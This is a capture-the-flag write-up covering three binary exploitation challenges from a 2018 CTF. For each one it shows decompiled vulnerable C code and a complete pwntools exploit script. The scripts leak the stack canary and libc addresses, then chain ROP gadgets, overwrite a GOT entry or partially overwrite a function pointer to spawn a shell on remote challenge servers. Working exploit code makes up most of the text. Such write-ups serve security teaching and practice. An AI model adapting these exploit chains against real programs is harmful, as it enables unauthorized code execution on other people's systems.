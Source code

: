 ## Exploitation Class

The program allocates a `char data[22][12];`  buffer on the stack, and we can
read and write it.

The vulnerability is here

```c  
unsigned __int64 __fastcall writeData(char *a1)  
{  
 unsigned int v2; // [rsp+4h] [rbp-14h]  
 unsigned __int64 v3; // [rsp+8h] [rbp-10h]

 v3 = __readfsqword(0x28u);  
 puts("Which entry to write?");  
 v2 = 0;  
 __isoc99_scanf("%u", &v2;;  
 if ( v2 <= 0xFC )  
 {  
   puts("What to write?");  
   read(0, &a1[12 * v2], 0xCuLL);  
 }  
 return __readfsqword(0x28u) ^ v3;  
}  
```

It ensures that index is `<= 0xfc`, however, it should be `idx * 12 <= 0xfc`,
so this leads to a index out of bound.

Also, there is no null termination here, so we can leak some data.

There is stack canary here, so we need to leak the canary and libc address.
Because we can read the last element of the array, we can fill all of the
bytes such that there is no null termination from the last element to the data
we want to leak. Then we can leak the data by showing the last element.

After leaking the data, it is very easy to ROP and execute the
`system("/bin/sh")`

```python  
from pwn import *

g_local=False  
context.log_level='debug'

if g_local:  
	sh = process("./exploitClass")#env={'LD_PRELOAD':'./libc.so.6'}  
	MAIN_RET_OFF = 0x20830  
	ONE_GADGET = 0x45216  
	POP_RDI = 0  
	e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")  
	gdb.attach(sh)  
else:  
	sh = remote("class.uni.hctf.fun", 24241)  
	#sh = process("./exploitClass", env={'LD_PRELOAD':'./libc.so.6'})  
	MAIN_RET_OFF = 0x24223  
	ONE_GADGET = 0x451F9 #0x45254  
	POP_RDI = 0x23BE3  
	e = ELF("./libc.so.6")

def read(idx):  
	sh.send("1\n")  
	sh.recvuntil("Which entry to show?\n")  
	sh.send(str(idx) + "\n")  
	ret = sh.recvuntil("\n")  
	sh.recvuntil("Enter 1 to read, 2 to write and any other number to exit!\n")  
	return ret[:-1]

def write(idx, data):  
	sh.send("2\n")  
	sh.recvuntil("Which entry to write?\n")  
	sh.send(str(idx) + "\n")  
	sh.recvuntil("What to write?\n")  
	sh.send(data)  
	sh.recvuntil("Enter 1 to read, 2 to write and any other number to exit!\n")

sh.recvuntil("Enter 1 to read, 2 to write and any other number to exit!\n")  
write(21, "B" * 12)  
write(22, "C")  
#write(24, "A" * 8 + '\xa0') #return to main  
canary = u64(read(21)[0xc:0xc+8]) - ord('C')  
print hex(canary)  
for i in xrange(0,4):  
	write(22 + i, "B" * 0xc)  
libc_addr = u64(read(21)[0x3c:0x3c+6] + "\x00\x00") - MAIN_RET_OFF

write(22, p64(canary))  
write(24, 'A' * 8 + p32((libc_addr + POP_RDI) & 0xffffffff))  
write(25, p32((libc_addr + POP_RDI) >> 0x20) + p64(libc_addr +
next(e.search("/bin/sh"))))  
write(26, p64(libc_addr + e.symbols["system"]))  
print hex(libc_addr)  
write(29, '\x00' * 0xc)  
sh.send("3\n")  
sh.interactive()  
```

## Important Service

0x401 0 can cause the buffer overflow, which can overwrite one lowest byte of
the function pointer in the stack

```c  
char vulnbuf[1024]; // [rsp+0h] [rbp-420h]  
int (__fastcall *func_addr)(char *, int, int); // [rsp+400h] [rbp-20h]  
//...  
fread(vulnbuf, 1uLL, (signed int)vullen, stdin);  
func_addr(vulnbuf, vullen, v7);  
```

Although there is PIE in this program, the lowest 12 bits will not change due
to the PIE. Initially the function pointer in the stack is `base_addr +
0x11BC`, and the shell function address is `base_addr + 0x11A9`, so if we
change `0xbc` to `0xa9`, the shell function will be called instead.

```python  
from pwn import *

g_local=False  
context.log_level='debug'  
store_idx = 0

if g_local:  
	sh = process("./importantservice")#env={'LD_PRELOAD':'./libc.so.6'}  
	gdb.attach(sh)  
else:  
	sh = remote("importantservice.uni.hctf.fun", 13375)

sh.recvuntil("Please enter width and height e.g.: 5 8\n")  
sh.send(str(0x401) + " 0\n")  
sh.recvuntil("Please provide some data e.g.: 12345\n")  
sh.send("A" * 0x400 + "\xa9")

sh.interactive()  
```

## Kindergarten PWN

In the program, an index is required to be given, and the program will show
the original byte at that index and let you to change it. The problem is that
it did not check the index must be `>=0`

```c  
if ( v5 <= 31 )//v5 < 0  
{  
  printf("the value at %d is %hhd. give me a new value:\n> ", (unsigned
int)v5, (unsigned int)array[v5]);  
  v3 = &v4;  
  if ( (unsigned int)__isoc99_scanf("%hhd", &v4) != 1 )  
    break;  
  array[v5] = v4;  
}  
```

and array is a global variable, and the got table can be overwritten, so we
can use this to leak the libc address and rewrite the got table to
`one_gadget`

```python  
from pwn import *

g_local=False  
context.log_level='debug'  
store_idx = 0

e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")  
if g_local:  
	sh = process("./kindergarten")#env={'LD_PRELOAD':'./libc.so.6'}  
	#sh = process(['ld.so.2', './user.elf'])  
	gdb.attach(sh)  
else:  
	sh = remote("kindergarten.uni.hctf.fun", 13373)  
	#ONE_GADGET_OFF = 0x4557a

def one_iter(idx, val = None):  
	sh.recvuntil("give me an index:\n> ")  
	sh.sendline(str(idx))  
	sh.recvuntil("the value at " + str(idx)+ " is ")  
	ret = sh.recvuntil(".")  
	sh.recvuntil(" give me a new value:\n> ")  
	ret = int(ret[:len(ret)-1])  
	if val:  
		sh.sendline(str(val))  
	else:  
		sh.sendline(str(ret))  
	return ret & 0xff

def leak_qword(off):  
	ret = 0  
	for i in xrange(0,8):  
		ret |= one_iter(off + i) << (8 * i)  
	return ret

def shoot_qword(off, val):  
	for i in xrange(0,8):  
		one_iter(off + i, (val >> (8 * i)) & 0xff)

libc_addr = leak_qword(0x4018 - 0x4080) - e.symbols["printf"]  
#leak address of `printf`  
print hex(libc_addr)  
shoot_qword(0x4030 - 0x4080, libc_addr + 0x4526a) #0x30 one_gadget  
#rewirte the `exit` function to one_gadget  
sh.recvuntil("> ")  
sh.sendline("asd")

sh.interactive()  
```

Original writeup
(https://github.com/EmpireCTF/empirectf/tree/master/writeups/2018-10-26-P-W-N-
CTF#kindergarten-pwn).